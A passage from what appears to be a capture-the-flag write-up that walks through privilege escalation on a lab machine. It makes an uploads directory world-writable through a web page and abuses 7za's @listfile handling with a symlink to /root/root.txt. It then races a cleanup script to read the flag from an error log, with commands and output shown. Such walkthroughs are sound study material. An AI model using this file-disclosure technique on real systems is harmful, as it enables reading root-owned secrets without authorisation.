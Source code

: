    2. Leverage `7za`'s `[<@listfiles...>]`:
      1. Write to the `/var/www/html/uploads` directory:
         ```sh
         cd /var/www/html/uploads

         ls -la
         # ls: cannot open directory .: Permission denied

         ls -lah ../
         # ...
         # drwxr-x--x. 2 apache apache    6 Oct 23  2018 uploads
         ```
         __NOTE(S)__:
         - The reverse shell from earlier has a user `apache`
         - The permissions could be changed using __/page.php__

      2. Change `/var/.../uploads`'s permissions using __/page.php__:
         
         inputCmd | inputOTP
         --- | ---
         `chmod 777 /var/www/html/uploads` | Generate an OTP using `stoken`

      3. Create __*relevant*__ files:
         ```sh
         cd /var/www/html/uploads

         touch @list

         ln -s /root/root.txt list

         ls -lah
         # drwxrwxrwx. 2 apache   apache    31 Jun 18 21:42 .
         # drwxr-xr-x. 6 root     root     176 Oct 23  2018 ..
         # lrwxrwxrwx. 1 ldapuser ldapuser  14 Jun 18 21:42 list -> /root/root.txt
         # -rw-rw-r--. 1 ldapuser ldapuser   0 Jun 18 21:42 @list
         ```
         __NOTE(S)__:
         - Since `list` is not a valid __*listfile*__, an error will be thrown
         - Attempt to capture `/backup/error.log` before contents are __*truncated*__ by `honeypot.sh`
>
      4. Capture contents of `/backup/error.log`:
         ```sh
         while ! [ -s /backup/error.log ]; do : ; done; cat /backup/error.log
         #
         # WARNING: No more files
         # fd6d2e53c995e6928cd0f040c79ba053
         #
         ```

